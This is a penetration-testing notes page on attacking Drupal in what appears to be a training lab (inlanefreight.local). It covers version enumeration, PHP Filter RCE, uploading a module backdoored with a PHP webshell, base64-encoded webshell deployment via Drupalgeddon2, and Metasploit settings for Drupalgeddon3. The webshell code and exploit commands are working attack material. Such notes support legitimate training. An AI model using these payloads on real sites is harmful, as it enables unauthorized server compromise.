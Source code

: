 # Drupal

Drupal is another open source CMS built with PHP and supports MySQL, PostreSQL, or SQLite backends.

### Discovery/Footprinting

```shell-session
curl -s http://drupal.inlanefreight.local | grep Drupal

<meta name="Generator" content="Drupal 8 (https://www.drupal.org)" />
      <span>Powered by <a href="https://www.drupal.org">Drupal</a></span>
```

Drupal installs can also be identified by the "Powered by Drupal" header or footer message, the CHANGELOG.txt or README.txt file, or references to /node in the robots.txt.&#x20;

Nodes are used by drupal to index the website and any presence of /node should be looked at as an indicator that drupal is in use.&#x20;

### Drupal User Types&#x20;

1. `Administrator`: This user has complete control over the Drupal website.
2. `Authenticated User`: These users can log in to the website and perform operations such as adding and editing articles based on their permissions.
3. `Anonymous`: All website visitors are designated as anonymous. By default, these users are only allowed to read posts.

### Enumeration

Version can be found many times in CHANGELOG or README:

```shell-session
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
```

Droopescan can also find version as well as installed plugins:

```shell-session
droopescan scan drupal -u http://drupal.inlanefreight.local
```

### RCE w/ PHP Filter Module&#x20;

In versions before version 8, a Drupal Admin can login and enable this module, which allows PHP code to be modified and executed.&#x20;

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Once enabled, go to Content -> Add Content -> Basic Page&#x20;

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Here you would input your malicious code to gain a webshell or reverse shell.&#x20;

Use an `MD5` hash representation can originate from any hashed command or string that isn't easily guessable and is not present in any dictionary wordlists used for directory brute-forcing.

<pre class="language-php"><code class="lang-php"><strong>&#x3C;?php
</strong>system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
</code></pre>

Ensure Text Format is set to PHP code:&#x20;

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

### Install PHP Filter Module (8 and newer)

Starting in version 8, the PHP Filter module is not installed by default. In this instance we can install it to exploit this functionality.&#x20;

1.  Download module on your attack box:&#x20;

    ```shell-session
    wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
    ```
2. Navigate too `Administration` > `Reports` > `Available updates`
3. Install the module and continue with exploiting PHP Filter Module (documented above)

### Creating and Uploading a backdoored module

Users with enough permissions are capable of uploading new modules. An existing module can be modified to include a PHP web shell or reverse shell and uploaded. Modules can be found on the drupal.org website.

1. Get the module&#x20;
   1.

       ```shell-session
       wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
       ```
   2.

       ```shell-session
       tar xvf captcha-8.x-1.2.tar.gz
       ```
2. Create PHP webshell&#x20;
   1.

       ```php
       <?php
       system($_GET['fe8edbabc5c5c9b7b764504cd22b17af']);
       ?>
       ```
3. Create .htaccess file to give access to the folder&#x20;
   1.

       ```html
       <IfModule mod_rewrite.c>
       RewriteEngine On
       RewriteBase /
       </IfModule>
       ```
4. Combine files and re-zip for upload&#x20;
   1.

       ```shell-session
       mv shell.php .htaccess captcha
       tar cvf captcha.tar.gz captcha/
       ```
5. Upload backdoor module&#x20;
   1. Manage -> Extend -> Install new module
6. Execute backdoor
   1.

       ```shell-session
       curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
       ```

### Known Vulnerabilties

there is a collection of critical RCE vulnerabilities known as Drupalgeddon:

#### Drupalgeddon:

* [CVE-2014-3704](https://www.drupal.org/SA-CORE-2014-005), known as Drupalgeddon, affects versions 7.0 up to 7.31 and was fixed in version 7.32. This was a pre-authenticated SQL injection flaw that could be used to upload a malicious form or create a new admin user.
  * POC exploit: [https://www.exploit-db.com/exploits/34992](https://www.exploit-db.com/exploits/34992)
  * metasploit module: [exploit/multi/http/drupal\_drupageddon](https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon/)&#x20;

```shell-session
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
```

#### Drupalgeddon2

* [CVE-2018-7600](https://www.drupal.org/sa-core-2018-002), also known as Drupalgeddon2, is a remote code execution vulnerability, which affects versions of Drupal prior to 7.58 and 8.5.1. The vulnerability occurs due to insufficient input sanitization during user registration, allowing system-level commands to be maliciously injected.
  * POC exploit: [https://www.exploit-db.com/exploits/44448](https://www.exploit-db.com/exploits/44448)

```shell-session
python3 drupalgeddon2.py 
# Check that hello.txt exists and exploit was successful 
curl -s http://drupal-dev.inlanefreight.local/hello.txt
# modify script to include web shell
echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64
# replacec echo command in the exploit script 
echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php
# re run exploit 
python3 drupalgeddon2.py
# execute code 
curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

#### Drupalgeddon3

* [CVE-2018-7602](https://cvedetails.com/cve/CVE-2018-7602/), also known as Drupalgeddon3, is a remote code execution vulnerability that affects multiple versions of Drupal 7.x and 8.x. This flaw exploits improper validation in the Form API.
  * Exploit POC: [https://github.com/rithchard/Drupalgeddon3](https://github.com/rithchard/Drupalgeddon3)
  * metasploit module: multi/http/drupal\_drupageddon3

1. Capture login in Burpsuite to get valid session cookie:
   1.

       <figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>
2.

    ```shell-session
    msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.42.195
    msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST drupal-acc.inlanefreight.local   
    msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
    msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1
    msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST 10.10.14.15
    msf6 exploit(multi/http/drupal_drupageddon3) > show options
    ```

### Droopescan and python versions

You may run into issues with newer python versions with Droopescan. Check out the cross linked page to learn about managing differnet python versions across virtual environments.&#x20;

{% embed url="https://adams-hacknotes.gitbook.io/adams-hacknotes/~/revisions/pjBmh8xYFncc9B8ppWZm/group-1/python-versions-and-virtual-environments" %}
